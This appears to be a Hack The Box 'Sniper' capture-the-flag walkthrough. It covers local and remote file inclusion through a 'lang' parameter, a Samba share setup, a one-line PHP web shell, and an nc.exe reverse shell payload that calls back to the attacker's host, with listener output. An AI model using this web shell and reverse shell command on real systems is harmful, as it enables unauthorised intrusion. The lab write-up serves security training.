





# 10 - HTTP


# Sniper Co.



We have a plenty of information, the most interesting ones are  **User Portal** and **Our Services**. User Portal is *under development*. Let's keep that in mind and go see the `Our services`.


# Possible local file inclusion


While changing the language on the top left corner of the blog , I noticed the `lang` value has the extension .php. The parameter is a perfect candidate for LFI. Since this is a windows box let's try to reach `c:\Windows\System32\drivers\etc\hosts`


# Local file inclusion



As we can see from the response we managed to include a local file. Now with this in our pocket we can also try remote file inclusion.

# Remote File Inclusion
There is an impacket tool smbserver.py but unfortunately smb2support flag says *SMB2 Support (experimental!)* and as a result, smb is not working properly with the Sniper box. We can use another good server, Samba.


# [/etc/samba/smb.conf](https://ubuntu.com/tutorials/install-and-configure-samba#3-setting-up-samba)

```bash
[htb]
   comment = Sniper
   path = /home/<username>/htb/share
   guest ok = yes
   read only = no
   browseable = yes
   create mask = 0600
```


Add these lines to the bottom of the file and start the server. Don't forget to create the *share* directory we specified in smb.conf.


```bash
┌─[user@parrot]─[10.10.14.10]─[~/htb/sniper/www]
└──╼ $ sudo systemctl start  smbd.service 
```


# RFI test file
```bash
┌─[user@parrot]─[10.10.14.10]─[/srv/smb]
└──╼ $ cat rev.txt 
malicious remote file is included
```




Our remote file inclusion efforts result in success.


# Php reverse shell

```bash
┌─[root@parrot]─[/srv/smb]
└──╼ #cat rev.php 
<?php  system($_REQUEST['cmd']);?>
```


I have been trying to get **IEX** way reverse shell with **Invoke-PowerShellTcp.ps1** but  requests do not even hit the server. I was suspicious of an AV in place but before flagging the powershell script as malicious, AV needs to inspect the file so that can't be AV because there is no file getting downloaded.

Powershell might be executing in a restricted environment. Let's find out


# Constrained mode


Our assumption turns out to be correct. We can still try to upload nc.exe and get a reverse shell from that. 


# Reverse shell payload
```sql
cmd=\\10.10.14.10\htb\nc.exe -e powershell.exe 10.10.14.10 4444
```

We have an smb server running already and windows can execute code from smb shares.


# Reverse shell returned
```bash
┌─[user@parrot]─[10.10.14.10]─[~/htb/sniper]
└──╼ $ nc -lvp 4444
listening on [any] 4444 ...
10.10.10.151: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.151] 64589
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\inetpub\wwwroot\blog> whoami
whoami
nt authority\iusr
```